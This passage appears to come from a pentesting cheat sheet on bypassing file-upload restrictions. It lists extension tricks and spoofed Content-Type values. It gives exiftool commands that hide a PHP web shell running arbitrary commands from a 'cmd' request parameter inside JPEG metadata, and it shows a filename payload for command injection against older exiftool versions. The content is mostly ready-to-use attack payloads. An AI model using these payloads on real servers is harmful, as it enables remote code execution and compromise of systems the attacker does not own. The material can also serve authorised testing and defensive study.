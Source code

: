 Empty file extension/filename.

```
implant
implant.
.php
```

## Content Type Restriction/MIME

Modify the `Content-Type` HTTP header's value

```
application/x-php
application/octet-stream
text/plain
image/jpeg
image/png
image/gif
application/pdf
```

## Insert Metadata with Webshell

### Polyglot Attack

Create an empty file.

```
$ convert -size 32x32 xc:white file.jpeg
```

Then insert metadata using `exiftool`.

```
$ exiftool -Comment="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" file.jpeg

$ exiftool -Copyright="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" file.jpeg

$ exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" file.jpeg
```

### Command Injection

> [!NOTE] Exiftool Exploit Version
> This only works on the server-side if the `exiftool` is lower than version **12.38**.

```
filename="touch test; <commands> |"
```

## Overwrite Server Configuration
